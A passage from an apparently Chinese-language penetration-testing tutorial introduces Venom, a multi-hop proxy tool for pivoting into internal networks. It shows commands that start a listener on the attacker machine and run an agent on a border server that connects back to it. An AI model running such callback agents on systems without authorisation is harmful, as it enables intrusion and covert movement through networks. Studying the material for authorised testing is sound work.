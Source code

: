 ​	接着配置好`Proxifier`等工具即可。

![](img/22.png)



## Venom

### 介绍

​	`Venom`是一款为渗透测试人员设计的使用`Go`开发的多级代理工具。`Venom`可将多个节点进行连接，然后以节点为跳板，构建多级代理。渗透测试人员可以使用`Venom`轻松地将网络流量代理到多层内网，并轻松地管理代理节点。

### 实现方式

#### 一级网络环境

- 在攻击机上执行以下命令

```bash
./admin_macos_x64 -lport 9999
```

- 在边界服务器上执行以下命令，此时攻击机上将会收到连接

```bash
agent.exe -rhost 192.168.168.71 -rport 9999
```
